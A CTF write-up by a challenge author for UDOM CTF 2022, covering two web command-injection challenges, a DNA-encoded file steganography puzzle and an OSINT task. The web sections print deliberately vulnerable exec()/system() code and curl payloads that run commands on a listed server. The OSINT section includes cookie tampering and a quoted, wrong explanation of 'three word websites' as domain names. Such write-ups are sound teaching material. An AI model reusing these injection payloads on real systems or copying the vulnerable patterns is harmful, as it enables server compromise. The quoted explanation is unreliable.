










UDOM CTF 2022 was an exciting end-of-the-year event for all cyber security enthusiasts! Taking place from December 31st to January 1st, this Capture the Flag (CTF) competition is a chance for participants to test their skills and knowledge against some of the best in the industry.

The UDOM CTF is organized by the University of Dodoma Cyber Security Club, and it was open to anyone who is interested in participating. Whether you are a seasoned CTF veteran or a beginner looking to learn more about cyber security, there was a place for you at this event.

Here are some writeups/solutionsof some challenges i created


# web challenge
---
## wRCeb

---


challenge called wRCeb as hint from the challenge name it was about some RCE, so lets open the page, we go some word it 

```
welcome to my page!

This page includes a link to JavaScript file
```


checking the ssource code


we found

```
  <script src="/scripts/main.js"></script>
```

checking inside main.js

```
#not not sure if you can understand me but i know you can folk easy-peasy

app.post('/command', (req, res) => {
  const { command } = req.body;
  exec(command, (error, stdout, stderr) => {
    if (error) {
      console.error(`Error: ${error}`);
      res.status(500).send({ error });
      return;
    }
    console.log(`stdout: ${stdout}`);
    console.log(`stderr: ${stderr}`);
    res.send({ stdout, stderr });
  });
});
```

well seems there some js code , if you understand  them the it pass a command parameter under /command and executed in exec function that run system command on server

how to exploit :
---

```
curl -X POST -d '{"command":"your command here"}' -H 'Content-Type: application/json' http://44.201.225.84:9002/command 
```

example

```
curl -X POST -d '{"command":"id"}' -H 'Content-Type: application/json' http://44.201.225.84:9002/command
```

get the flag


##  wINJe
---





a challenge name is wINJe, could be an injection?, well lets open the page

![[20230103113636.png]]
There some menu, kunze and jafe navigation, if you click them

```
http://44.201.225.84:9001/udom.php?name=Kunze&lastname=Jafe
```

well seem there some parameter pass via GET,


lets see robots.txt, You can get by bruteforce the directory or use common sense since robots.txt is too common on website so when you play ctf like you should consider to check it directly




there some comment about 


```
disallowed
i love vim editor and i love code via Vim
```


seems they used vim, and we know that backup file for vim edit ends with .bak so we will try to check

```
udom.php.bak

```

we were to download a file


```
<?php


$x = escapeshellcmd($_GET["name"]);
$y = escapeshellcmd($_GET["lastname"]);

if(isset($x)){
system($y." ".$x);
}
if(strcmp($x,'Kunze')==0){
$content = <<< EOF
  <p>
"WE all live once" — Kunze
EOF;
}
if(strcmp($x,'Jafe')==0){
$content = <<< EOF
  <p>
"I hate here, Kunze. I can’t live here" — Jafe
EOF;
}
```

trying to read and understand, the best part is 

```

$x = escapeshellcmd($_GET["name"]);
$y = escapeshellcmd($_GET["lastname"]);

if(isset($x)){
system($y." ".$x);
}
```

when varibale $x is set a system function is execute with variable x and y, so plan is to leave varibale y empty and then put command to variable x so it can be executed on server and get the flag

how to exploit:
---

```
curl "http://44.201.225.84:9001/udom.php?name=&lastname=id"
```

you will get code execution





get the flag!!


# STEG
----
## Dr Khan
---




esy steg but got no solve, ehh seems peole dont wanna make old tool work 

well, downloaded the file that end with dna

```
secret.dna
```

its contect looks like 

```
ubuntu@udomctf:~/stegsol$ head secret.dna 
TCGCTCACTCAGTAGACAGCGATCGTCGAGTATCGCATCTGTGTGATGTAGCTATCTGCAGATGCTCATGAGCATCGCGCTGCGTCGACTCGCAGCTAGCACATCACAGACATAGTGTAGCGCGCTGCGTCGTATGTACATATCATGTCTGCATCTCTGACATACGACAGCAGTGAGTCTCAGTGCTAGAGCGCTAGTGAGTATCGCGCTGCTGTCTAGAGCGCTATGTACTCGCATATGATCTCGACATCAGTCATATGATGAGTACAGCATCGTACTCTGTACAGTGACAGCATATACGACGTGACTGACACTCAGTCACATCTACATCACAGCAGCAGTCGCAGACTAGACGTGTACTGACATCACTCAGTCGATACGATACGATCTACGCTCGTGAGTCGCAGTGCTGTCGAGACTGCGCAGCTAGCACATCATCTACGCTGCGATCTAGAGCTAGTCTCTACACGACGTATCACACACAGACGTA
```

seems like kind DNA sequence

if youre lazy you can take advantage of chatGPT and ask her



how to exploit
---

by using file2dna

```
pip install file2dna
```

its a python2 package so you can use your way to make it work haa!!, python2 sometimes sucks in python3 enviroment but there many tool outhere, you just needed to google

decode it

```
ubuntu@udomctf:~/stegsol$ dna -d secret.dna
```

we got secret.decoded then check what type of file

```
ubuntu@udomctf:~/stegsol$ file secret.decoded 
secret.decoded: PDF document, version 1.7, 1 pages (zip deflate encoded)
```

its pdf well, you can change extension and open it

```
ubuntu@udomctf:~/stegsol$ mv secret.decoded secret.pdf
ubuntu@udomctf:~/stegsol$ 
```

once opened then nothing there


well just highlight all with ctrl + A , and copy to textpad , you will get the flag

boom!!

# OSINT 
---
## B0rn
---




GOT 0 solve too, but was easy if you follow the train properly,

challenge has link and hint two

hint:
```
i was born at the hopital,
```

You be asked to find where malwarepeter was born so for normal mind + hint , you are looking to what hospital malwarepeter he was born.

how to exploit
---

lets see the page

once the page opened you will see

```
Help Help
```

but if you are loking for cookie you will



then change admin cookie value from **false** to **true** and save then refresh the page

you will get a new year image 




check source code

you will find comment

```
<!-- ///emulating.modifies.speech --><
```

well seems are three words , what is it?

```
A "three word website" is a website that is identified by a unique, three-word domain name. These types of websites are often used to provide location-based information or services.

For example, a website with the domain name "[www.newyork.coffee.shop](http://www.newyork.coffee.shop)" might provide information about coffee shops in New York City, or it might allow users to search for and book a table at a coffee shop in the city.
```

well for this you already there!!!

by going to https://what3words.com/emulating.modifies.speech

you get




zoom




malwarepeter was born at Muhimbili, 

easy peasy!!


---
THE END WE HOPING TO HAVE MORE CTF THIS YEAR BASED ON DIFFERENT SCENARIOS HAPPY NEW YEAR EVRYONE

